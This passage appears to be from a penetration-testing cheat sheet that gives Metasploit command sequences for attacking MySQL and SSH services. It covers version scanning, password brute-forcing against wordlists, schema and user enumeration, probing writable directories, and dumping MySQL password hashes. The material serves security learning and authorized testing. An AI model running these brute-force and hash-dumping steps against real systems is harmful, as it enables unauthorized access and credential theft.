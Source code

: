<a id=3.6></a>
## MySQL Enumeration

MySQL is a DBMS (Database Management System) based on SQL. It runs on port 3306, but it can
be hosted on other ports.

We can use auxiliary modules to enumerate versions, tables and more.

```bash
$ systemctl start postgresql && msfdb init && msfconsole
msf6 > workspace -a MySQL_Enum
msf6 > setg RHOST [TARGET]
msf6 > setg RHOSTS [TARGET]
msf6 > search type:auxiliary name:mysql
msf6 > use auxiliary/scanner/mysql/mysql_version
msf6 auxiliary(scanner/mysql/mysql_version) > set RPORT [3306-OTHER]
msf6 auxiliary(scanner/mysql/mysql_version) > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_version) > run
msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /path/to/passwords
msf6 auxiliary(scanner/mysql/mysql_login) > search mysql_enum
msf6 auxiliary(scanner/mysql/mysql_login) > use auxiliary/admin/mysql/mysql_enum
msf6 auxiliary(admin/mysql/mysql_enum) > set PASSWORD [PASSWORD]
msf6 auxiliary(admin/mysql/mysql_enum) > set USERNAME [USERNAME]
msf6 auxiliary(admin/mysql/mysql_enum) > use auxiliary/admin/mysql/mysql_sql
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD [PASSWORD]
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME [USERNAME]
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL [QUERY]
msf6 auxiliary(admin/mysql/mysql_sql) > use auxiliary/scanner/mysql/mysql_schemadump
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD [PASSWORD]
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME [USERNAME]
msf6 auxiliary(scanner/mysql/mysql_schemadump) > exit
$ mysql [TARGET] -u root -p
msf6 > use auxiliary/scanner/mysql/mysql_writable_dirs
msf6 auxiliary(scanner/mysql/mysql_writable_dirs) > set DIR_LIST /path/to/dirs
msf6 auxiliary(scanner/mysql/mysql_writable_dirs) > set USERNAME [USERNAME]
msf6 auxiliary(scanner/mysql/mysql_writable_dirs) > set PASSWORD [PASSWORD]
msf6 auxiliary(scanner/mysql/mysql_writable_dirs) > set FILE_NAME [TEST_FILE_NAME]
msf6 auxiliary(scanner/mysql/mysql_writable_dirs) > use auxiliary/scanner/mysql/mysql_hashdump
msf6 auxiliary(scanner/mysql/mysql_hashdum) > set USERNAME [USERNAME]
msf6 auxiliary(scanner/mysql/mysql_hashdum) > set PASSWORD [PASSWORD]
```

<a id=3.7></a>
## SSH Enumeration and Login

SSH (Secure Shell) is an authentication-based service used to remotely access a system. It's widely
used by system administrators and regular users to run commands on a system.

```bash
$ systemctl start postgresql && msfdb init && msfconsole
msf6 > workspace -a SSH_Enum 
msf6 > set RHOST [TARGET]
msf6 > set RHOSTS [TARGET]
msf6 > search type:auxiliary name:ssh
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiiary(scanner/ssh/ssh_version) > run
msf6 auxiiary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiiary(scanner/ssh/ssh_login) > set USER_FILE /path/to/usernames
msf6 auxiiary(scanner/ssh/ssh_login) > set PASS_FILE /path/to/passwords
msf6 auxiiary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf6 auxiiary(scanner/ssh/ssh_login) > run
msf6 auxiiary(scanner/ssh/ssh_login) > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiiary(scanner/ssh/ssh_enumusers) > set USER_FILE /path/to/users
msf6 auxiiary(scanner/ssh/ssh_enumusers) > 
```